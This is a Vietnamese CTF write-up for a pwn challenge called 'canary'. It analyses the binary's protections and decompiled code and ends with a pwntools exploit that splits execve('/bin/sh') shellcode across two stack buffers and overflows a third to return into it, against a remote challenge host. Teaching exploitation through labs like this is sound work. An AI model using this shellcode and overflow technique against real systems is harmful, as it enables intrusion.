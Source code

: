 # CANARY
# Reverse file
file 64-bit, dynamically linked, và không có stripped.
```sh
zir@ubuntu:~/Desktop$ file canary
canary: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=1bf7fbedab28e21b8519ef1d1629ddd9a7056ef8, for GNU/Linux 3.2.0, not stripped

```
Checksec file: mình thấy rằng 
* NX disabled - được quyền thực thi trên stack, có thể chạy shellcode trên stack.
* No canary found - chương trình không tạo ra 1 chuỗi ngẫu nhiên để ngăn việc buffer overflow.
```sh
zir@ubuntu:~/Desktop$ checksec canary
[*] '/home/zir/Desktop/canary'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments

```

Đưa file canary vào IDA để xem pseudocode, nhận thấy luồng chương trình sẽ có 3 hàm quan trọng: 
* main
* compare
* printresult.

```sh
-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=- Main func -=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-

int __cdecl main(int argc, const char **argv, const char **envp)
{
  setbuf(_bss_start, 0LL);
  setbuf(stdin, 0LL);
  tmulogo();
  puts(
    "Welcome to our String Comparison System!\n"
    "Enter two strings to be compared with each other. \n"
    "We will tell you the comparison result.\n");
  compare();
  return 0;
}
-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=- Compare func -=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-

int compare()
{
  char s2[15]; // [rsp+2h] [rbp-2Eh] BYREF
  char v2[27]; // [rsp+11h] [rbp-1Fh] BYREF
  int v3; // [rsp+2Ch] [rbp-4h]

  strcpy(v2, "noshellcode");
  puts("Enter first string (up to 15 chars): ");
  readline(&v2[12], 0x1BuLL);
  puts("Enter second string (up to 15 chars): ");
  readline(s2, 0xFuLL);
  puts("Note that we have a canary between these two strings and you cannot inject any shellcode!\n");
  printf("Do not you believe? Here is the canary address: %p\n", v2);
  v3 = strcmp(&v2[12], s2);
  if ( !strcmp(v2, "noshellcode") )
    return printresult(v3);
  else
    return puts("You overwrite the canary :|\nNo results for you. Bye Bye.\n");
}

-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=- Printresult func -=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-

int __fastcall printresult(int a1)
{
  char s[12]; // [rsp+14h] [rbp-Ch] BYREF

  puts(
    "===================================================================\n"
    "Thank you for using our system.\n"
    "If you don't mind, leave your phone number for us in order to inform you about our new productions later!\n"
    "\n"
    "Enter your phone number: ");
  fgets(s, 32, stdin);
  puts("\nThis is the comparison result: ");
  if ( a1 )
    return puts("---> * The strings are not equal! *");
  else
    return puts("---> * The strings are equal! *");
}
```

Chương trình sẽ cho mình nhập khoảng 3 lần:
* Trong hàm compare:
    * Copy chuỗi "noshellcode" vào biến v2.
    * Lần 1: Nhập 27 kí tự, bắt đầu từ &v2[12]  ----------> BufferOverflow
    * Lần 2: Nhập 15 byte vào biến s2.
    * In ra địa chỉ bắt đầu của biến v2.
    * So sánh 2 giá trị vừa nhập vào s2 và &v2[12] với nhau và đưa giá trị tối đa 4 byte vào trong biến v3 (kiểu int), đóng vai trò như 1 canary.
    * So sánh biến v2 với chuỗi "noshellcode", nếu bằng nhau sẽ gọi hàm printresult(v3), chuẩn bị cho lần nhập lần 3.
* Trong hàm printresult:
    * Lần 3: Nhập 32 kí tự vào S[12] -------------> BufferOverflow
    * In 1 số chuỗi ra.

# Solution

Chương trình cho mình 3 lần nhập, 1 địa chỉ trên stack, NX disabled, No Canary found. Mình sẽ sử dụng shellcode cho bài này. Đây là sơ đồ mình đã debug và ghi nhận địa chỉ của từng lần nhập, mình sẽ sắp xếp theo thứ tự địa chỉ tăng dần.

* Lần 3: 0x7ffce8205554 - 0x7ffce8205574 (32)
* Lần 2: 0x7ffce8205572 - 0x7ffce8205581 (15)
* Lần 1: 0x7ffce820558d - 0x7ffce82055a8 (27)

```sh

0x7ffce8205554 --> 0x7ffce8205572 --> 0x7ffce8205581 --> 0x7ffce820558d --> 0x7ffce82055a8

|-------------------------------------------------- v2[0-11] ----------- v3---------------->

```

Trong sơ đồ trên có 2 chướng ngại:
* v2[0-11] chứa chuỗi "noshellcode"
* v3 chứa giá trị từ hàm strcmp(&v2[12],s2) tối đa 4 byte.

Mình sẽ nhập shellcode chia ra làm 2 phần, phần đầu shellcode sẽ nhập vào lần 2, và phần sau sẽ nhập vào lần 1. Lần nhập thứ 3 mình sẽ RET về địa chỉ chứa shellcode.

Sử dụng 1 số lệnh jmp _offset (\xeb\x_offset) để bỏ qua các chướng ngại.

## File exploit.py
```python
from pwn import * 
#s = process("./canary")
s = remote("185.97.117.19", 7030)
pause()

sc = "\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05"

sc2 = "\x48\xc1\xeb\x08\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\xeb\x04aaaa\xb0\x3b\x48\x31\xF6\x0f\x05\x00"
sc1 = "\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\xeb\x0c"


s.sendline(sc2)
s.sendline(sc1)
s.recvuntil("canary address: ")

stack_addr = int(s.recv(14),16) - 0xf 

# 0xc-0x1b = 0xf 
# 0xc la offset tu dia chi leak den PHAN SAU cua SHELLCODE
# 0x1b la offset tu PHANSAU cua SHELLCODE den PHANDAU cua SHELLCODE

payload = "c"*(0xc+8) + p64(stack_addr)
s.sendline(payload)
s.interactive()
```

## Flag >> `TMUCTF{3x3cu74bl3_574ck_15_v3ry_d4n63r0u5}`

